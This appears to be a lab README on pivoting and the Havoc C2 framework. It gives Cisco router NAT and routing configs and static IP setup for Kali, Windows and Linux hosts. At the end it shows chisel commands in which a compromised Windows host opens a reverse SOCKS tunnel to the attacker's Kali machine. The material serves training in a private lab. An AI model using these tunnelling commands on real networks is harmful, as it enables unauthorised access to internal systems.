









Pivoting & Havoc C2 Framework
1. Build Pivoting Lab 2. Exploit Vulnerable Windows (Public IP) 3. Pivoting To Internal Network 4. Exploit Vulnerable Linux (Private IP) 5. Using Havoc C2 Framework
Screenshot :









Video :
R1 Configuration : Static Nat & Default Routing: ================================================= R1# config terminal R1(config)# int f1/0 R1(config-if)# ip address 172.16.1.1 255.255.255.0 R1(config-if)# no shutdown R1(config-if)# exit R1(config)# int f2/0 R1(config-if)# ip address 172.16.2.1 255.255.255.0 R1(config-if)# no shutdown R1(config-if)# exit R1(config)# int f0/0 R1(config-if)# ip address 200.30.20.1 255.255.255.252 R1(config-if)# no shutdown R1(config-if)# exit R1(config)# ip nat inside source static 172.16.1.2 200.30.20.1 R1(config)# int f1/0 R1(config-if)# ip nat inside R1(config-if)# exit R1(config)# int f0/0 R1(config-if)# ip nat outside R1(config-if)# exit R1(config)# ip route 0.0.0.0 0.0.0.0 200.30.20.2 R1(config)# do wr
R2 Configuration: ================== R2# config terminal R2(config)# int f1/0 R2(config-if)# ip address 10.0.0.1 255.255.255.0 R2(config-if)# no shutdown R2(config-if)# exit R2(config)# int f0/0 R2(config-if)# ip address 200.30.20.2 255.255.255.252 R2(config-if)# no shutdown R2(config-if)# exit
Static IP Address (Windows , Kali , Vuln-Linux-Server): ======================================================= Windows: Change adapter optipns > Ethernet Properties > TCP/IPv4 IP address : 172.16.1.2 Subnet Mask : 255.255.255.0 Default GW : 172.16.1.1 ============================ Kali-Linux: sudo ifconfig eth0 10.0.0.2 netmask 255.255.255.0 sudo route add default gw 10.0.0.1 eth0 ============================ Vuln-Linux-Server: sudo ifconfig eth0 172.16.2.2 netmask 255.255.255.0 sudo route add default gw 172.16.2.1 eth0 ============================
Pivoting: ========== Kali: ./chisel server -p 8001 --reverse Windows: chisel.exe client 10.0.0.2:8001 R:1080:socks